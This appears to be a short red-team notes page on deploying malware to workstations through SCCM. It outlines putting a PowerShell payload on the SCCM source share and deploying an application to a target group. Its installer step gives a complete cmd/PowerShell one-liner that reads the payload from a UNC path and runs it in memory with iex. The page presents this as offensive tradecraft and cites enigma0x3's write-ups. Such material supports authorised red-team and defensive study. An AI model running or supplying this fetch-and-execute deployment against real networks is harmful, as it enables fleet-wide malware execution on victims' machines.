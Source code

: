 # Malware Deployment

## Compromise

* Create an application/package that utilizes PowerShell for payload deliery and execution
  * Create a PowerShell payload and throw it up on the public share SCCM uses (i.e. _sccmsource_)

<figure><img src="../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://enigma0x3.net/2015/10/27/targeted-workstation-compromise-with-sccm/" %}
Tutorial
{% endembed %}

* Create a Script installer application to fetch and execute your payload :
  * `cmd.exe /c "powershell.exe -c "gc \\serverName\sharedFolder\ApplicationFolder\payload.txt | iex""`
* Deploy the application to your target group and wait for the SCCM agents to check in
  * Payload is fetched over UNC and runs in memory

## Sources

[Red Team upgrades using SCCM for Malware Deployment - SlideShare](https://www.slideshare.net/enigma0x3/red-team-upgrades-using-sccm-for-malware-deployment-57117235)
